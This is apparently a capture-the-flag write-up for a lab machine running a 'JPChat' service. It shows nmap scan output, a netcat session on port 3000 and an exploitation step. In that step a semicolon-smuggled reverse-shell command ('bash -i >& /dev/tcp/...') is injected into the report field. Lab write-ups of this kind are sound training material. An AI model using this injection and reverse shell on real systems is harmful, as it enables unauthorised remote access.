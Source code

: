 ```console
| ssh-hostkey: 
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqRxJhw/1rrvXuEkXF+agfTYMZrCisS01Z9EWAv8j6Cxjd00jBeaTGD/OsyuWUGwIqC0duALIIccwQfG2DjyrJCIPYyXyRiTbTSbqe07wX6qnnxV4xBmKdu8SxVlPKqVN36gQtbHWQqk9M45sej0M3Qz2q5ucrQVgWsjxYflYI1GZg7DSuWbI9/GNJPugt96uxupK0pJiJXNG26sM+w0BdF/DHlWFxG0Z+2CMqSlNt4EA2hlgBWKzGxvKbznJsapdtrAvKxBF6WOfz/FdLMQa7f28UOSs2NnUDrpz8Xhdqz2fj8RiV+gnywm8rkIzT8FOcMTGfsvOHoR8lVFvp5mj
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2CCqg8ac3eDsePDO27TM9OweWbaqytzrMyj+RbwDCHaAmfvhbA0CqTGdTIBAsVG6ect+OlqwgOvmTewS9ihB8=
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:48
Completed NSE at 13:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:48
Completed NSE at 13:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:48
Completed NSE at 13:48, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.38 seconds
```

### Application(port:3000)
- Connected to the machine with netcat on port  3000

```console
❯ nc 10.10.252.69 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

- It says to see source code at the admin's github.
- Found the source code [here](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py)
- We can escape code with `;` which we use in bash to start new commands 

## Exploitation

### Application(port:3000)
- Started netcat listener and injected code on the application

```console
❯ nc 10.10.252.69 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
random
your report:
; bash -i >& /dev/tcp/10.17.0.215/4444 0>&1;
```
